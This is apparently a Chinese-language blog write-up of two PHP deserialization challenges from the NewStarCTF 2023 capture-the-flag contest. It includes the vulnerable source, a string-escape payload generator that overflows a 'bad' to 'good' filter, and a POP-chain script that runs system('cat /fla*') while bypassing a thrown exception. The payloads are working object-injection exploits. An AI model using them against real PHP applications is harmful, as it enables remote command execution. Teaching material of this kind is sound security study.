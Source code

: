 ```yaml
---
title: NewStarCTF2023 week4 反序列化记录
date: 2023-10-24 11:36 +0800
categories: [CTF,WEB]
tags: [反序列化,web]
img_path: /assets/images/
---
```




## 逃

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key'])))); 
```

这里传入的 `key` 先序列化，在反序列化。

这里的 序列化后 有一个waf 会将 bad 替换成 good，

我们先 正常 传入一个key，进行反序列化得到一个正常的payload

```
O:7:"GetFlag":2:{s:3:"key";s:4:"test";s:3:"cmd";s:6:"whoami";}
```

我们需要伪造的就是 `";s:3:"cmd";s:6:"whoami";}` 这一串，test后面的。

因为，bad 替换成 good 后，中间的 key 的 值 会变长，但是读取的字符串长度是固定的（`s:4:`），就可以让后面的部分`";s:3:"cmd";s:6:"whoami";}`不在反序列化的范围内。

如下面的图，经过waf后，第四段就不在反序列化的范围内了。

![image-20231024093431830](NewStarCTF 2023_week4.assets/image-20231024093431830.png)



```php
<?php
$cmd = 'ls /';
// ";s:3:"cmd";s:6:"whoami";}
$payload = '";s:3:"cmd";s:' . strlen($cmd) . ':"' . $cmd . '";}';
$badstr =  str_repeat('bad', strlen($payload));
$key = $badstr . $payload;
echo $key;

# badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}
```

我们简单的理解一下，就可以写成一个 payload 生成器。

![image-20231024094642983](NewStarCTF 2023_week4.assets/image-20231024094642983.png)

注：

```php
<?php

use GetFlag as GlobalGetFlag;

class GetFlag {
    public $key = 'badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}';
    public $cmd = "whoami";
}
// O:7:"GetFlag":2:{s:3:"key";N;s:3:"cmd";s:6:"whoami";}
// ";s:3:"cmd";s:6:"whoami";}
// ";s:3:"cmd";s:4:"ls /";}
// O:7:"GetFlag":2:{s:3:"key";s:96:"badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}";s:3:"cmd";s:6:"whoami";}

echo serialize(new GlobalGetFlag());
```





## More Fast（Exception绕过）

```php
<?php
highlight_file(__FILE__);

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}

$a = @unserialize($_POST['fast']);
throw new Exception("Nope");
```

pop链

```
WEB::evil()
Pwn::__invoke[obj] --> WEB::evil()
Reverse::__get[func] --> Pwn::__invoke
Crypto::__toString[obj] --> Reverse::__get
Start::__destruct[errMsg] --> Crypto::__toString
```

```php
<?php

use Crypto as GlobalCrypto;
use Pwn as GlobalPwn;
use Reverse as GlobalReverse;
use Start as GlobalStart;
use Web as GlobalWeb;

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class myclass{}


$a = new GlobalWeb();
$a->func = 'system';
$a->var = 'cat /fla*';

$b = new GlobalPwn();
$c = new GlobalReverse();
$d = new GlobalCrypto();
$e = new GlobalStart();

$b->obj = $a;
$c->func = $b;
$d->obj = $c;
$e->errMsg = $d;


$payload = serialize(array($e, null));
$payload = str_replace('i:1;N;}', 'i:0;N;}', $payload);
echo $payload;
```



![image-20231024112410706](NewStarCTF 2023_week4.assets/image-20231024112410706.png)



![image-20231024112832877](NewStarCTF 2023_week4.assets/image-20231024112832877.png)
